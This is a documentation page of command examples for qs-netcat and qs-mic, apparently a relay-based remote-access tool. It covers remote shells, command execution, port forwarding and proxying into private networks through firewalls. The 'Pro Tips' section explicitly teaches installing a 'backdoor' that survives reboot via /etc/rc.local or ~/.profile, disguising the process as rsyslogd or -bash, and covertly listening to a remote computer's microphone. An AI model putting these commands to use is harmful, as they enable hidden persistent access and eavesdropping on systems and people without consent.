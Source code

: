 ```yaml
---
title: 'Examples'
toc: false
---
```


# Examples

---

<video width="760" height="500" controls>
  <source src="https://user-images.githubusercontent.com/17179401/221196823-5c6e3a66-3b06-410a-9d2b-33efd101428a.mp4" type="video/mp4">
</video> 

<details>
<summary>RDP connection over QSRN</summary>

![RDP_POC](../windows_rdp_demo.gif)

</details>

<details>
<summary>ADB access over QSRN</summary>

![ADB_POC](../android_adb_remoting_demo.gif)

</details>

**Usage:**

- SSH from *Workstation B* to *Workstation A* through any firewall/NAT
```
$ qs-netcat -f "localhost:22" -l  # Workstation A
$ qsocket ssh root@qsocket        # Workstation B
```
- Log in to Workstation A from Workstation B through any firewall/NAT
```
$ qs-netcat -l -i   # Workstation A
$ qs-netcat -i      # Workstation B
```

- Transfer files from *Workstation B* to *Workstation A*
```
$ qs-netcat -q -s MySecret -l > file.txt     # Workstation A
$ qs-netcat -q -s MySecret < file.txt        # Workstation B
```

- Port forward. Access 192.168.6.7:22 on Workstation's A private LAN from Workstation B:
```
$ qs-netcat -l -f 192.168.6.7:22    # Workstation A
$ qs-netcat -f :2222                # Workstation B
```

- In a new terminal on Workstation B execute:
```
ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Workstation's A private LAN
```

- Execute any command (nc -e style) on *Workstation A*
```
$ qs-netcat -l -e "echo hello world; id; exit"   # Workstation A
$ qs-netcat                                      # Workstation B
```

Another example: Spawn a new docker environment deep inside a private network
```
# Start this on a host deep inside a private network
qs-netcat -il -e "docker run --rm -it kalilinux/kali-rolling"
```

Access the docker environment deep inside the private network from anywhere in the world:
```
qs-netcat -i
```
Listen in on a remote computer microphone for 10 seconds
```
$ qs-mic -l -s MySecret           # Workstation A
$ qs-mic -d 10 -s MySecret --play # Workstation B
```
Access entirety of Workstation A's private LAN (Sock4/4a/5 proxy)
```
$ qs-netcat -l -f :22 -s MySecret                                        # Workstation A
$ ssh -D 9090 -o ProxyCommand='qs-netcat -s MySecret' root@doesnotmatter # Workstation B

Access www.google.com via Workstation A's private LAN from your Workstation B:
$ curl --socks4a 127.1:9090 http://www.google.com
```

Mount a remove folder using sshfs and qs-netcat
```
$ qs-netcat -l -f :22 -s MySecret # Workstation A
$ qs-netcat -f :9090 -s MySecret  # Workstation B
$ sudo sshfs -o allow_other,default_permissions -p 9090 root@localhost:/remote_dir /mnt/local_dir # Workstation B
```

**Pro Tips**
- Hide your arguments (argv)

Pass the arguments by environment variable (QS_ARGS) and use a bash-trick to hide qs-netcat binary in the process list:
```
$ export QS_ARGS="-s MySecret -l -i -q"
$ exec -a -bash ./qs-netcat &     # Hide as '-bash'.
$ ps alxww | grep qs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

- SSH login to remote workstation
```
# On the remote workstation execute:
qs-netcat -s MySecret -l -f 192.168.6.7:22
```
or
```
# Access 192.168.6.7 via ssh on the remote network from your workstation:
ssh -o ProxyCommand='qs-netcat -s MySecret' root@doesnotmatter
```

- Retain access after reboot
The easiest way to retain access to a remote system is by using [the automated deploy script](https://github.com/qsocket/qs-deploy). Alternatively the following can be used to achieve the same:
Combine what you have learned so far and make your backdoor restart after reboot (and as a hidden service obfuscated as *rsyslogd*). Use any of the start-up scripts, such as */etc/rc.local*:
```
$ cat /etc/rc.local
#! /bin/sh -e

QS_ARGS="-s MySecret -l -i -q" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /usr/local/bin/qs-netcat"

exit 0
```
Not all environment variables are set during system bootup. Set some variables to make the backdoor more enjoyable: *TERM=xterm-256color* and *SHELL=/bin/bash* and *HOME=/root*. The startup script (*/etc/rc.local*) uses */bin/sh* which does not support our *exec -a* trick. Thus we use */bin/sh* to start */bin/bash* which in turn does the *exec -a* trick and starts *qs-netcat*. Puh. The qs-netcat process is hidden (as *rsyslogd*) from the process list. Read [how to enable rc.local](https://linuxmedium.com/how-to-enable-etc-rc-local-with-systemd-on-ubuntu-20-04/) if */etc/rc.local* does not exist.  

Alternatively install qs-netcat as a [systemd service](examples/systemd-root-shell).

Alternativly and if you do not have root privileges then just append the following line to the user's *~/.profile* file. This will start qs-netcat (if it is not already running) the next time the user logs in. There are [many other ways to restart a reverse shell after system reboot](https://www.qsocket.io/deploy):
```
killall -0 qs-netcat 2>/dev/null || (QS_ARGS="-s MySecret -l -i -q" SHELL=/bin/bash exec -a -bash /usr/local/bin/qs-netcat)
```

